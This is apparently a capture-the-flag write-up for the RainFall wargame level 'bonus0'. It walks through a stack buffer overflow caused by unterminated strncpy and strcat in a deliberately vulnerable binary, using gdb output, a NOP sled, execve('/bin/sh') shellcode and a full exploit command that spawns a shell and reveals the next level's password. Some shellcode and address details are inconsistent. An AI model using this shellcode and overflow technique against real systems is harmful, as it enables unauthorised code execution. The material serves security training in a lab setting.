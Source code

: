 # Bonus

- Once logged in, you will see a binary `bonus0`

```
[???]$ ssh localhost -p 4242 -l bonus0
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
bonus0@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$ ls
bonus0
bonus0@RainFall:~$
```

let's execute and see what this does

```
bonus0@RainFall:~$ ./bonus0
 -
a
 -
b
a b
bonus0@RainFall:~$ ./bonus0
 -
aa
 -
bbbbbbbbbbbbb
aa bbbbbbbbbbbbb
bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb�� bbbbbbbbbbbbbbbbbbbb��
Segmentation fault (core dumped)
```

this seems the program takes input, and prints out each input. but from the prompt of the last one, the output gives segmentation falult with lengthy input.

Let's take a deeper look into the program by using gdb.

From taking at the list of functions, there is a function p, pp, and main.
```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x080484b4  p
0x0804851e  pp
0x080485a4  main
[...]
```

by analyzing the source code, we can see the the program ins using `strcpy(), strcat()`, which both are vulnerable for buffer overflow attack.

the program first calls function `pp`, and from function `pp` it calles `p` function.

From function `p`, it frist prints prints `" - "` on screen, and gets input with buffer size of 0x1000 from stdin. Once it copies into the buffer, if the buffer contains `newline; nl; '\n'`, it will set value where `\n` was placed into 0(=NULL; \0) and copies back 20 bytes back into first parameter of function.

by checking the output, the two buffers are stored next to each other. The strncpy() is call to copy the first 20 bytes. but on the man page,

```
 If stpncpy() does not terminate dst with a
     NUL character, it instead returns a pointer to dst[n] (which
     does not necessarily refer to a valid memory location.)
```

And as the buffer is next to each other, `strcat()` function will consider the second string as the part of the first string, since there is no `'\0'` is located in the first part of the buffer.

XXXXXXXXXXXXXXXXXXXXXXXXXXXX


Now we build the payload.

the first argument will consist with NOP instruction greater than 61 bytes and less than the buffer.

```
NOP * 100 + [shellcode]
"\x90" * 100 + "x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

then find the `buffer` address for beginning of buffer address + 61 and end of the NOP instruction

```
[----------------------------------registers-----------------------------------]
EAX: 0x4
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xffffffff
EDX: 0xb7fd28b8 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffff648 --> 0xbffff6a8 --> 0xbffff6f8 --> 0x0        <- beginning of the buffer
ESP: 0xbfffe630 --> 0x80486a0 --> 0x202d20 (' - ')
EIP: 0x80484d0 (<p+28>:	lea    eax,[ebp-0x1008])
EFLAGS: 0x200282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80484c0 <p+12>:	mov    DWORD PTR [esp],eax
   0x80484c3 <p+15>:	call   0x80483b0 <puts@plt>
   0x80484c8 <p+20>:	mov    DWORD PTR [esp+0x8],0x1000
=> 0x80484d0 <p+28>:	lea    eax,[ebp-0x1008]
   0x80484d6 <p+34>:	mov    DWORD PTR [esp+0x4],eax
   0x80484da <p+38>:	mov    DWORD PTR [esp],0x0
   0x80484e1 <p+45>:	call   0x8048380 <read@plt>
   0x80484e6 <p+50>:	mov    DWORD PTR [esp+0x4],0xa
[------------------------------------stack-------------------------------------]
0000| 0xbfffe630 --> 0x80486a0 --> 0x202d20 (' - ')
0004| 0xbfffe634 --> 0x0
0008| 0xbfffe638 --> 0x1000
0012| 0xbfffe63c --> 0x0
0016| 0xbfffe640 --> 0x0
0020| 0xbfffe644 --> 0x0
0024| 0xbfffe648 --> 0x0
0028| 0xbfffe64c --> 0x0
[------------------------------------------------------------------------------]
```

```
Choose an address between 0xbfffe640 + 61 (0xbfffe67d) and 0xbfffe640 + 100 (0xbfffe6a4) => 0xbfffe640 (\xd0\xe6\xff\xbf)
```

the exploit will be following

```
python -c 'print "\x90" * 100 + "x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
```
```
python -c 'print "A" * 9 + "\x86\xe6\xff\xbf" + "B" * 7'
```

```
(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\x86\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

```
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\x86\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 -
 -
��������������������AAAAAAAAA����BBBBBBB�� AAAAAAAAA����BBBBBBB��
ls
ls: cannot open directory .: Permission denied
cat /home/users/bonus1/.pass
cat: /home/users/bonus1/.pass: No such file or directory
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
